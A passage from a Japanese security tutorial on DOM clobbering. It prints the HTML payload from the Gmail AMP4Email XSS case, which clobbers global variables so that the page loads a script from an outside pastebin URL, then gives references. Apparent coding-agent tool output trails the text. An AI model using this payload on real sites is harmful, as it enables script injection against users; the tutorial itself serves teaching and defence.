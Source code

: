 `AMP_MODE.test` と `AMP_MODE.localDev` の両方を真にし、`window.testLocation` を設定できれば、任意のスクリプトを読み込むことができます！

したがって、エクスプロイトは次のようになります。

```html
// AMP_MODE.testとAMP_MODE.localDevをclobberします
<a id="AMP_MODE" name="localDev"></a>
<a id="AMP_MODE" name="test"></a>

// testLocation.protocolを設定します
<a id="testLocation"></a>
<a id="testLocation" name="protocol" 
   href="https://pastebin.com/raw/0tn8z0rG#"></a>
```

最終的に、任意のスクリプトを正常に読み込むことで、XSSを達成できます！（ただし、著者はCSPによってブロックされる前にこのステップまでしか到達できませんでした。これはCSPが依然として非常に有用であることを示しています）。

これはDOM clobberingの最も有名な事例の1つであり、この脆弱性を発見した研究者は、Mutation XSSとプロトタイプ汚染について以前に言及したMichał Bentkowski氏です。彼は多くの古典的な事例を一人で生み出しました。

## まとめ

DOM clobberingの使用例は限られていますが、確かに興味深い攻撃方法です！さらに、この機能を知らない場合、HTMLを使用してグローバル変数の内容に影響を与えることができるとは考えもしなかったかもしれません。

この攻撃手法に興味がある場合は、PortSwiggerの[記事](https://portswigger.net/web-security/dom-based/dom-clobbering)を参照してください。この攻撃手法を実際に試すための2つのラボが提供されています。読むだけでは不十分です。完全に理解するには、実際に攻撃を試す必要があります。

参考文献：

1. [Dom Clobberingを使用してXSSを拡張する](http://blog.zeddyu.info/2020/03/04/Dom-Clobbering/#HTML-Relationships)
2. [DOM Clobbering strikes back](https://portswigger.net/research/dom-clobbering-strikes-back)
3. [DOM Clobbering Attack学習記録.md](https://wonderkun.cc/2020/02/15/DOM%20Clobbering%20Attack%E5%AD%A6%E7%BF%92%E8%AE%B0%E9%8C%84/)
4. [DOM Clobbering学習記録](https://ljdd520.github.io/2020/03/14/DOM-Clobbering%E5%AD%A6%E7%BF%92%E8%AE%B0%E9%8C%84/)
5. [XSS in GMail’s AMP4Email via DOM Clobbering](https://research.securitum.com/xss-in-amp4email-dom-clobbering/)
6. [要素のidをグローバル変数にする仕様はありますか？](https://stackoverflow.com/questions/6381425/is-there-a-spec-that-the-id-of-elements-should-be-made-global-variable)
7. [JavaScriptで要素IDを識別子として使用しないのはなぜですか？](https://stackoverflow.com/questions/25325221/why-dont-we-just-use-element-ids-as-identifiers-in-javascript)
8. [idを持つDOMツリー要素はグローバル変数になりますか？](https://stackoverflow.com/questions/3434278/do-dom-tree-elements-with-ids-become-global-variables)

</final_file_content>

IMPORTANT: For any future changes to this file, use the final_file_content shown above as your reference. This content reflects the current state of the file, including any auto-formatting (e.g., if you used single quotes but the formatter converted them to double quotes). Always base your SEARCH/REPLACE operations on this final version to ensure accuracy.

<environment_details>
# VSCode Visible Files
i18n/en/docusaurus-plugin-content-docs/current/ch1/05-javascript-protocol.md
i18n/ja/docusaurus-plugin-content-docs/current/ch3/15-dom-clobbering.md
